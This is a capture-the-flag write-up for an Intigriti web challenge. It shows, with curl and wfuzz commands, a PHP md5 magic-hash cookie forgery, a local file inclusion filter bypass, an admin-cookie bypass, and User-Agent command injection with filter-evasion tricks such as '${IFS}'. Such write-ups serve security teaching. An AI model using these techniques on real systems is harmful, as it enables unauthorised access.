 0423: We Like to Sell Bricks:https://challenge-0423.intigriti.io/challenge.php

+ When we logged in with the given credentials, we can see two cookies are set. username and account_type. While trying to send the account_type value as a array, we get the following error:
```
<b>Fatal error</b>:  Uncaught TypeError: md5(): Argument #1 ($string) must be of type string, array given in /app/dashboard.php:68
Stack trace:
#0 /app/dashboard.php(68): md5(Array)
#1 {main}
  thrown in <b>/app/dashboard.php</b> on line <b>68</b><br />
 
 ```
 + Awesome, it seems that the value of the account_type cookie is being hashed with md5 and compared to something.
+ For example:
md5('240610708') -> "0e462097431906509019562988736854"
md5('QNKCDZO') -> "0e830400451993494058024219903391" , so
md5('240610708') == md5('QNKCDZO') is TRUE


Let's try changing the account_type value to "240610708"

```curl 'https://challenge-0423.intigriti.io/dashboard.php'  \
-H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0'' \
-H 'Cookie: account_type=240610708; username=strange'
 ```
Success! The assumption is correct and we have additional HTML content in the response:

```
<h3 id="custom_image.php - try to catch the flag.txt ;)">A special golden wall just for Premium Users ;) </h3><img src="resources/happyrating.png">$ FREE4U
Yet another hint from the challenge creator, let's visit "custom_image.php"
```

+ If the player fuzzes the parameters for the custom_image.php endpoint, they'll find https://challenge-0423.intigriti.io/custom_image.php?file= produces a Permission denied! error.
`wfuzz -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u https://challenge-0423.intigriti.io/custom_image.php?FUZZ= --hh 294753`
The endpoint is vulnerable to LFI but ../../ are filtered and a simple regex will block www/web/images
+ The player needs to bypass this, e.g. with https://challenge-0423.intigriti.io/custom_image.php?file=www/web/images/......\flag.txt

This will load a corrupted image, by copying the base64 of the image from the html and decrypting it you can get the content of this file:
```
<img
    src="data: image/jpeg;base64,SGV5IE1hcmlvLCB0aGUgZmxhZyBpcyBpbiBhbm90aGVyIHBhdGghIFRyeSB0byBjaGVjayBoZXJlOgoKL2U3ZjcxN2VkLWQ0MjktNGQwMC04NjFkLTQxMzdkMWVmMjlhYi85NzA5ZTk5My1iZTQzLTQxNTctODc5Yi03OGI2NDdmMTVmZjcvYWRtaW4ucGhwCg=="
/>
```
Decoded:
Hey Mario, the flag is in another path! Try to check here:

/e7f717ed-d429-4d00-861d-4137d1ef29ab/9709e993-be43-4157-879b-78b647f15ff7/admin.php
+ Now the player has a new endpoint to visit: https://challenge-0423.intigriti.io/e7f717ed-d429-4d00-861d-4137d1ef29ab/9709e993-be43-4157-879b-78b647f15ff7/admin.php

Whenever you visit this endpoint, as you are not an admin, you will be redirected to the login page.

Since the redirect is done incorrectly, loading the page content in the response and adding a simple location header, we have two possible ways to display the page.

- Response manipulation; just change the 302 to 200 and remove the location header with burp (match and replace), or simply intercepting the response and editing it manually.

- Edit the username cookie and set it from strange to admin, since the checking for the admin page is performed only on that cookie (weak).

+ Each time the admin page is loaded, the site logs the User-Agent (as hinted in the logs endpoint). Since the user agent is saved by executing a terminal command, that header is vulnerable to command injection.
+ There are some security checks, such as removing some characters, spaces, and some functions but locked functions can be easily bypassed, e.g. cucurlrl will become curl
+ As for the spaces, one way to bypass them is to use ${IFS}
